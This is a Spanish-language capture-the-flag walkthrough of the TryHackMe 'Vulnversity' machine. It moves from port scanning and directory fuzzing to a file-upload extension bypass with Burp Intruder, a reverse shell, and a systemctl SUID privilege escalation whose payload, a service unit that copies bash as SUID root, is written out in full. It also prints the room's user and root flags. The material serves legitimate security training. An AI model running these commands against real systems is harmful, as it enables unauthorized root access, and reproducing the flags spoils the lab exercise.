## Máquina Vulnversity - Tryhackme

### 1. Reconocimiento
Comando Nmap para realizar escaneo de puertos:
- nmap -sS -n -Pn -p- --open --min-rate 5000 <ip-address> -oN <filename>


* -sS: Stealth Scan para agilizar el escaneo
* -n: Evita el DNS.
* -Pn: Evita realizar el descubrimiento de host.
* -p-: Busca en los 65535 puertos.
* --open: Filtra solamente por puertos abiertos.
* --min-rate 5000: Trazar 5000 paquetes por segundo.
* <ip-address>: IP objetivo.
* -oN: Formato Nmap para guardar el output.
* <filename>: Nombre del output.

Puertos encontrados: 21(FTP), 22(SSH), 139(SMB), 445(SMB), 3128(SQUID-PROXY), 3333(HTTP).
Comando Nmap para buscar versión y servicio que corren para dichos puertos:
- nmap -sCV -p21,22,139,445,3128,3333 <ip-adress> -oN <filename>


-sCV: Lanza los scripts más populares de reconocimiento y enumera las versiones de los servicios.
-p<ports>: Enumera los puertos encontrados.

[Evitar FTP y SMB] El script de reconocimiento no nos dice que podemos acceder a el servicio FTP ni tampoco a SMB, ya adelanto que no hay nada que podamos hacer con dichos servicios.
[Visitar la web] Vamos a la web "http://<ip-address>:3333/

[Hacemos un reconocimiento de la web] Buscamos y analizamos posibles pistas que nos de para poder aprovecharnos de ello.
Usamos "Ctrl + U" para ver el ćodigo fuente en búsqueda de:
- Comentarios que nos otorgue credenciales, pistas, rutas, información sensible, etc.
Pero no encontramos nada interesante.

2.1 Fuzzing
Utilizamos la herramienta Gobuster para hacer fuerza bruta en busqueda de directorios ocultos en la web.
Comando utilizado:
gobuster dir -u http://10.201.64.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 200

* -u: URL objetivo.
* -w: Diccionario empleado para el ataque de fuerza bruta.
* --no-error: Para que no se muestren los errores en el output.
* -t 200: Para lanzar peticiones con 200 hilos y agilizar el proceso.

Directorios encontrados:
* /images
* /css
* /js
* /fonts
* /internal -> Potencial

[Visitamos /internal] Esta ruta permite la subida de archivos. Podemos intentar subir un código malicioso en php para ganar acceso al sistema.

Un simple payload en php para ver si la máquina permite la extensión .php



El servidor no permite la extensión .php por lo que debemos probar otro tipo de extensión que ejecute php, ya sea:
- php5
- phtml
etc

3. Explotación
[Usamos Burpsuite] para agilizar el proceso y estar probando manualmente cada extensión, podemos usar la herramienta Intruder de Burpsuite para cargar una serie de extensiones que se irán probando, y la respuesta del servidor podemos deducir que esa extensión es válida.


Ahora enviamos la solicitud al servidor y la capturamos con Burpsuite

Lo mandamos al Intruder para realizar un ataque de tipo Sniper. Esto se utiliza para probar multiples combinaciones de palabras o caracteres.
En este caso, lo utilizamos para probar múltiples extensiones php.
[lanzamos el ataque]
Dependiendo la longitud de la respuesta podemos determinar si es válida o no. Vemos que extensión ".phtml" tiene mayor longitud que las demás.
Podemos cambiar la extensión y probar con .phtml para subir el script malicioso.

¡¡Exitoso!!

Ahora nos dirigimos a la ruta /uploads para ver el archivo.

5. Escalar privilegios.
Nos ponemos en escucha con Netcat en nuestra máquina local en el puerto 443. Cuando hagamos click sobre el archivo, nos entablaremos una reverse shell con acceso al sistema objetivo.


Una vez dentro del sistema, ejecutamos comandos de enumeración del sistema.
- whoami: muestra el usuario actual
- id: muestra los grupos a los que pertenece el usuario actual
- lsb_release -a: información del sistema, kernel, etc.
- cat /etc/passwd: usuarios y servicios del sistema
- sudo -l: comandos que podemos ejecutar como root sin proporcionar contraseña
- find / -perm -4000 2>/dev/null: busca por archivos SUID en el sistema.


[/home] encontramos un usuario de nombre "bill". Dentro de este directorio, encontramos la flag -> 8bd7992fbe8a6ad22a63361004cfcedb

Debemos enumerar los archivos SUID los cuales podemos aprovecharnos de ello.
Utilizando el comando: find / -perm -4000 2>/dev/null
podemos buscar por binarios SUID.
Opcionalmente, podemos concatenar con: xargs ls -l
para ver propietario y permisos.


Una ves realizado el comando, vemos los típicos binarios del sistema, también otro que podemos aprovecharnos como lo es:
systemctl
[Búsqueda en GTObins] en esta página, podemos encontrar como escalar privilegios con binarios con diferentes permisos. En este caso, SUID.


[SUID Payload] Vemos una serie de comandos que podemos ejecutar como root.
Lo primero que haremos será esto:


echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

Lo que hace este payload es copiar la bash de root en el directorio /tmp/ con nombre de archivo "rootbash"
Luego, concatena otro comando "chmod +s" para otorgarle permisos SUID a la bash que nos permitirá ejecutar la bash como root.
Luego, guarda todo este "echo" en /tmp/root.service

Despues de hacer todo este payload.

Ejecutamos: /bin/systemctl link /tmp/root.service

Una vez ejecutado, proseguimos con: /bin/systemctl enable --now /tmp/root.service

Cuando ejecutemos este comando, ya tendremos copiada la bash en /tmp con permiso SUID.




Ejecutamos: /tmp/rootbash -p
para tener una shell como usuario root
whoami para verificar si somos root.
Máximos privilegios obtenidos!!

a58ff8579f0a9270368d33a9966c7fd5 -> flag root
